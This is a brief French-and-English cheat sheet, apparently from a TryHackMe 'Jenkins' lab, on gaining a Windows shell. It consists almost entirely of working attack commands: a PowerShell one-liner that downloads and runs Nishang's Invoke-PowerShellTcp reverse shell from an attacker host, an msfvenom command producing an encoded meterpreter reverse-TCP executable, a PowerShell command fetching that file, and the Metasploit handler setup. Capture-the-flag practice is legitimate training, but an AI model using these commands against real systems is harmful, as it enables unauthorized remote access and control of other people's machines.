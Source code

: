 # Windows\_shell

### Windows shell

### Machine Jenkins tryhackme

Utilisation de Nishang pour l'accés initial\
[https://github.com/samratashok/nishang](https://github.com/samratashok/nishang)

Cet outil :\
[https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)

Commande à executer depuis le serveur jenkins:

powershell iex **(**New-Object  Net.WebClient**)**.DownloadString**(**'http://your-ip:your-port/Invoke-PowerShellTcp.ps1'**);**Invoke-PowerShellTcp  -Reverse -IPAddress your-ip -Port your-port

Use msfvenom to create the a windows meterpreter reverse shell using the following payload\
`msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=[IP] LPORT=[PORT] -f exe -o [SHELL NAME].exe`

After creating this payload, download it to the machine using the same method in the previous step:\
`powershell "(New-Object System.Net.WebClient).Downloadfile('http://<ip>:8000/shell-name.exe','shell-name.exe')"`

Before running this program, ensure the handler is set up in metasploit:\
`use exploit/multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST your-ip set LPORT listening-port run`

Dans la première console accedée:\
`Start-Process "shell-name.exe"`
